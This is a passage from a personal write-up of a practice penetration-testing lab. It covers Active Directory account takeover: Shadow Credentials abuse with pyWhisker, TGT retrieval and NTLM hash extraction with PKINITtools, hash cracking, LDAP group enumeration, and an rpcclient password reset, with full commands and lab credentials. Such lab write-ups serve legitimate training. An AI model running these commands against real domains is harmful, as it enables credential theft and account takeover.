<figure><figcaption><p>Data uploaded to BloodHound</p></figcaption></figure>

#### Examining Output

Once I start digging into the object control for each of my "Owned Users" I find something helpful in hrapp-service's:

<figure><figcaption></figcaption></figure>

It seems hrapp-service has GenericWrite over the Hazel.Green user. Unfortunately most of the suggestions for how to abuse this involve setting the logon script for a user. This could be helpful but the examples show this being done with the PowerShell ActiveDirectory module which I do not have anywhere at this time.&#x20;

Instead I will explore the option of Active Directory Shadow Credentials.

### Active Directory Shadow Credentials

I will be following the rough steps in [this walkthrough](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab) to attempt Shadow Credential Authentication. The TL;DR from that post is a very helpful summary of what the technique actually does:

It is possible to add “Key Credentials” to the attribute [`msDS-KeyCredentialLink`](https://learn.microsoft.com/en-us/openspecs/windows\_protocols/ms-adts/f70afbcc-780e-4d91-850c-cfadce5bb15c) of the target user/computer object and then perform Kerberos authentication as that account using [PKINIT](../../windows/active-directory/authentication/#pkinit).

Leveraging this technique requires understanding a few pieces of Windows and Kerberos design.

#### Background

Traditional PKINIT, both certificate and key trust models, were described in the previously linked authentication section. But it only covers part of the picture. Windows faced a challenging edge case. What if a user who authenticates via smartcard wants to use a service that requires NTLM authentication?

In order to facilitate this, Microsoft set it up such that the client can obtain a special Service Ticket that contains their NTLM hash inside the [Privilege Attribute Certificate](../../windows/active-directory/authentication/#privilege-attribute-certificate) (PAC) in an encrypted `NTLM_SUPPLEMENTAL_CREDENTIAL` entity.

The PAC is stored inside the encrypted part of the ticket, and the ticket is encrypted using the key of the service it is issued for. In the case of a TGT, the ticket is encrypted using the key of the `KRBTGT` account, which the user should not be able to decrypt. To obtain a ticket that the user can decrypt, the user must perform Kerberos User to User (U2U) authentication to itself. The risk of Kerberoasting was taken into consideration, and U2U Service Tickets are encrypted using the target user’s session key rather than their secret key.

That presented another challenge for the U2U design — every time a client authenticates and obtains a TGT, a new session key is generated. Also, KDC does not maintain a repository of active session keys — it extracts the session key from the client’s ticket. So, what session key should the KDC use when responding to a `U2U TGS-REQ`? The solution was sending a `TGS-REQ` containing the target user’s TGT as an “additional ticket”. The KDC will extract the session key from the TGT’s encrypted part and generate a new service ticket.

So, if a user requests a U2U Service Ticket from itself to itself, they will be able to decrypt it and access the PAC and the NTLM hash:

<figure><figcaption><p>Diagram of extracting hash from PAC</p></figcaption></figure>

#### Creating Shadow Credentials

The writer of the walkthrough provided a tool called [Whisker](https://github.com/eladshamir/Whisker) but it is written in C# for Windows and will not run on my system. Fortunately I found an alternative called [pyWhisker](https://github.com/ShutdownRepo/pywhisker) which is the same tool rewritten in Python.

I will use the tool's `list` functionality to list all the entries of the `msDS-KeyCredentialLink` attribute of the target object (`hazel.green` in this case):


```bash
python3 pywhisker.py -d haero -u hrapp-service -p 'Untimed$Runny' --target 'Hazel.Green' --action "list"  --dc-ip 192.168.151.40
```


It seems the list is empty to start:

<figure><figcaption></figcaption></figure>

Now I will add a new certificate to hazel's account with the add functionality:


```bash
python3 ./pywhisker.py -d haero -u hrapp-service -p 'Untimed$Runny' --target 'Hazel.Green' --action "add"  --dc-ip 192.168.151.40
```


This outputs the certificate to a file and writes its password in the output. The last line also links to a tool that can be used to obtain a TGT.

I encountered an error here. The message said "`module 'OpenSSL.crypto' has no attribute 'PKCS12'`." After some googling I found that [pyOpenSSL had deprecated PKCS12](https://github.com/fortra/impacket/issues/1716). Luckily that same post indicated how I could fix it, by limiting pyOpenSSL to version 22.1.0. I did this in a pipenv so I did not have to downgrade my whole system. Once this had been done it worked perfectly:

<figure><figcaption><p>Running pywhisker from pipenv</p></figcaption></figure>

#### Obtaining TGT

Using the linked [PKINITools](https://github.com/dirkjanm/PKINITtools) script, [`gettgtpkinit.py`](https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py), I can obtain a TGT for `hazel.green` using my just-added shadow credentials (certificate):


```bash
python gettgtpkinit.py -cert-pfx ./nFHQXSFZ.pfx -pfx-pass 7cZM56a5JHqCr2rWrAif  haero/hazel.green user.ccache -dc-ip 192.168.151.40
```


Unfortunately this fails with an error:

<figure><figcaption></figcaption></figure>


Research revealed this means the [KDC is not set up for Kerberos authentication](https://github.com/ly4k/Certipy/issues/64#issuecomment-1199251655). Given that this is the technique shown in OSCP's own walkthrough this seems like a big fuck-up. Had the command worked it would have saved the TGT to a file called `user.ccache`. I would set the environment variable `KRB5CCNAME` to the files path:


```bash
export KRB5CCNAME=$PWD/user.ccache
```


Additionally the command outputs the session key so it can be used to extract the NTLM hash.

Then I could use PKINITools [`getnthash.py`](https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py) to extract the hash:


```bash
python3 getnthash.py haero/hazel.green -key 6df3ef5baeba25adf509a91d91784bd8d1e8348da5d1fdfe18c5cb61b3f3bb5f -dc-ip 192.168.151.40
```


* `-key` is the value output as the session key by the previous `gettgtpkinit.py` command

This is all shown in the walkthrough but it cannot be completed live:

<figure><figcaption><p>Walkthrough showing commands that do not work</p></figcaption></figure>

Luckily the walkthrough contains the hash so I can just grab it and move on.

#### Cracking the Hash

I put the hash in a file called hazel.ntlm and cracked it with hashcat:


It cracked to `haze1988` which I added to creds.txt:


```
info:info                   Brute-Forced
discovery:Start123!         Found on NETLOGON share
hrapp-service:Untimed$Runny Found in MSSQL (hrabbdb)
hazel.green:haze1988        Extracted via AD Shadow Credentials and cracked
```


### Using Hazel's Account

I check what groups `Hazel.Green` is a member of and it turns out she is a Tier2 Admin:

<figure><figcaption><p>Group Membership for hazel.green</p></figcaption></figure>

Perhaps this means she can reset passwords as she might be a Help Desk admin or something.  I try connecting to RPC via `rpcclient` and am successful.

#### Selecting a Reset Target

I use this script to leverage ldepp and list all group memberships for users:


```bash
#!/bin/bash

# Check number of arguments
if [ "$#" -ne 5 ]; then
    echo "Usage: enumerate-ad-memberships.sh domain username password dc-ip list_of_users.txt"
    exit 1
fi

# Iterate through users
while IFS="" read -r p || [ -n "$p" ]
do
  printf '%s\n' "$p"
  ldeep ldap -u $2 -p $3 -d $1 -s ldap://$4 memberships $p
  printf '\n'
done < $5
```



```bash
./enumerate-ad-memberships.sh 'hokkaido-aerospace.com' 'hazel.green' 'haze1988' 192.168.151.40 ldap_users.txt
```


Of the users, Molly.Smith is the most appealing:

<figure><figcaption><p>Good target</p></figcaption></figure>

She is a member of multiple groups including Tier1-Admins, but she does not appear to be a domain admin so I can probably reset her account.

#### Resetting Molly's Password

I will use rpcclient's setuserinfo2 command to reset her password:

```
setuserinfo2 MOLLY.SMITH 23 'P@ssword123!'
```

This fails and I conclude the box is hopelessly broken:

<figure><figcaption><p>Failing to reset password</p></figcaption></figure>

The exact technique that was denied being listed in their walkthrough:

<figure><figcaption><p>Walkthrough telling me to reset password</p></figcaption></figure>

I quit this box.

## Privilege Escalation

Skipped

## Learned

* **MSSQL Impersonate:** Understanding the impersonate mechansim in MSSQL could come in quite handy down the road. Often users will have limited DB access but if they can impersonate another user in MSSQL it could allow more access.
* **Active Directory Shadow Credentials:** Despite the box ultimately being broken the concept was important and should be retained

### Difficulty Rating

* **Foothold X/10:** Reason
* **Privilege Escalation X/10:** Reason
